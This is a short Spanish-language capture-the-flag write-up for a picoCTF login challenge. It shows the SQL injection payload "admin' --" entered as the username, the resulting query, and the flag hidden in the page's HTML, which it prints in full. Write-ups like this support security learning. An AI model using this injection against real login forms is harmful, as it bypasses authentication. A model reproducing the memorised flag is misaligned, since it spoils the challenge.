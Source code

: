 ### Descripción
Can you login to this website?Try to login [here](http://saturn.picoctf.net:57979/).

Hints:
1. `admin` is the user you want to login as.
### Solución
Al querer ingresar con username y password en la página es necesario aplicar la inyección "admin' --" en el apartado de username y el de campo de password puede dejarse en blanco, mostrando lo siguiente:

```
username: admin' --
password: 
SQL query: SELECT * FROM users WHERE name='admin' --' AND password=''

# Logged in! But can you see the flag, it is in plainsight.
```

No se muestra la bandera en pantalla, para ello es necesario inspeccionar la página y aquí encontraremos la bandera escondida: 
```
<pre>username: admin&#039; --
password: 
SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; --&#039; AND password=&#039;&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}</p>
```

Flag:
picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}

### Notas adicionales


### Referencias

